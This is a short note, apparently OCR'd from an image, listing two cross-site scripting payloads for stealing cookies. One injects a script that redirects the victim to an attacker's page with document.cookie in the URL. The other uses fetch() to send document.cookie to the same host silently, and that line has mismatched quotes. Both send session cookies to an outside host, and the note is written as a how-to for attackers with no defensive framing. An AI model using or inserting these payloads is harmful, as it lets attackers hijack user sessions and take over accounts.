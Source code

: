 


1. Stealing cookies via GET request.
   by redirecting user to malicious website 
   ex :- 
        <script>
           window.location='https://my-web.com/info?cookie='+document.cookie
        </script>
        This code redirects the victim to attackers page.

2. Using fetch() function of js.
   ex :-
      fetch("https://my-web.com/info?cookie='+document.cookie);
      It will not redirect the user to attacker's website.
      
